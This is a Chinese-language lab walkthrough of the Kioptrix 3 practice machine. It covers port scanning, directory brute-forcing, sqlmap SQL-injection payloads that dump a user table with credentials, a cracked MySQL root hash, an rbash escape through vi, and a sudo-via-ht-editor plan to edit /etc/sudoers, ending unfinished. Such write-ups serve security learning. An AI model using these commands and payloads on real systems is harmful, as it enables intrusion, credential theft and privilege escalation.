




##  端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-06 21:35 EST
Nmap scan report for 10.10.10.21
Host is up (0.0031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:80:06:9F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80 10.10.10.21   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-06 21:36 EST
Nmap scan report for 10.10.10.21
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:80:06:9F (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.21                            
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.21
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 351] [--> http://10.10.10.21/modules/]
/gallery              (Status: 301) [Size: 351] [--> http://10.10.10.21/gallery/]
/data                 (Status: 403) [Size: 322]
/core                 (Status: 301) [Size: 348] [--> http://10.10.10.21/core/]
/style                (Status: 301) [Size: 349] [--> http://10.10.10.21/style/]
/cache                (Status: 301) [Size: 349] [--> http://10.10.10.21/cache/]
/phpmyadmin           (Status: 301) [Size: 354] [--> http://10.10.10.21/phpmyadmin/]
/server-status        (Status: 403) [Size: 331]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
=====================================================

```
可以发现有一个gallery目录
进去查看

看到这里直接更改hosts文件即可
然后正常访问

## web渗透

在web页面寻找功能点时发现了sql注入


```bash
─$ sudo sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1*&sort=photoid#photos" --batch -D gallery -T gallarific_users  --dump
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___["]_____ ___ ___  {1.7.10#stable}                                                                                                                                                                                                  
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                  
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:34:45 /2024-03-06/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[22:34:45] [INFO] resuming back-end DBMS 'mysql' 
[22:34:45] [INFO] testing connection to the target URL
[22:34:45] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=2dcc72ce6cc...11cfbd35ee'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://kioptrix3.com/gallery/gallery.php?id=(SELECT (CASE WHEN (6202=6202) THEN 1 ELSE (SELECT 9563 UNION SELECT 2753) END))&sort=photoid

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: http://kioptrix3.com/gallery/gallery.php?id=1 OR ROW(4821,4810)>(SELECT COUNT(*),CONCAT(0x7171717171,(SELECT (ELT(4821=4821,1))),0x71626b7a71,FLOOR(RAND(0)*2))x FROM (SELECT 5274 UNION SELECT 1686 UNION SELECT 8773 UNION SELECT 8896)a GROUP BY x)&sort=photoid

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://kioptrix3.com/gallery/gallery.php?id=1 AND (SELECT 5760 FROM (SELECT(SLEEP(5)))keKO)&sort=photoid

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://kioptrix3.com/gallery/gallery.php?id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7171717171,0x4877664f6a6f6b4a7652466265714a696a4473566d4d70574261475143567050644c584b616b4b74,0x71626b7a71),NULL,NULL,NULL-- -&sort=photoid
---
[22:34:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, PHP, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[22:34:45] [INFO] fetching columns for table 'gallarific_users' in database 'gallery'
[22:34:45] [INFO] resumed: 'userid','int(11)'
[22:34:45] [INFO] resumed: 'username','varchar(100)'
[22:34:45] [INFO] resumed: 'password','varchar(100)'
[22:34:45] [INFO] resumed: 'usertype','enum('superuser','normaluser')'
[22:34:45] [INFO] resumed: 'firstname','varchar(100)'
[22:34:45] [INFO] resumed: 'lastname','varchar(100)'
[22:34:45] [INFO] resumed: 'email','varchar(255)'
[22:34:45] [INFO] resumed: 'datejoined','int(11)'
[22:34:45] [INFO] resumed: 'website','varchar(255)'
[22:34:45] [INFO] resumed: 'issuperuser','tinyint(4)'
[22:34:45] [INFO] resumed: 'photo','varchar(100)'
[22:34:45] [INFO] resumed: 'joincode','varchar(20)'
[22:34:45] [INFO] fetching entries for table 'gallarific_users' in database 'gallery'                                                                                                                                                     
Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+

[22:34:45] [INFO] table 'gallery.gallarific_users' dumped to CSV file '/root/.local/share/sqlmap/output/kioptrix3.com/dump/gallery/gallarific_users.csv'
[22:34:45] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[22:34:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/kioptrix3.com'

[*] ending @ 22:34:45 /2024-03-06/


```

得到一个用户
然而这组密码我试了好几个地方都无效
那么转而去查找其它用户
最终在mysql的user表中找到如下数据
```bash
root             | *47FB3B1E573D80F44CD198DC65DE7764795F948E 
```
md5 解密结果
root/fuckeyou

ssh登录前两个用户都失败了

用这个密码登录了phpmyadmin

## ssh登录



```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss dreg@10.10.10.21
dreg@10.10.10.21's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$
```
当我执行一些命令时会发现这是一个受限制的shell：/bin/rbash
那么就得绕过限制
使用vi绕过

命令行中，输入 vi，在末行模式中，输入 :set shell=/bin/bash

接着继续esc  :输入shell

回车后就是一个bash了

使用dreg用户去提权时，找不到啥有用信息
ssh用loneferret去登录时发现了两个sudo权限

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

ht是一个编辑器

接下来具体的做法就是sudo ht
编辑 `/etc/sudoers` 文件
给loneferret sudo /bin/bash的权限即可
然而我好像在编辑的时候玩坏了
环境坏了，就写到这吧。。
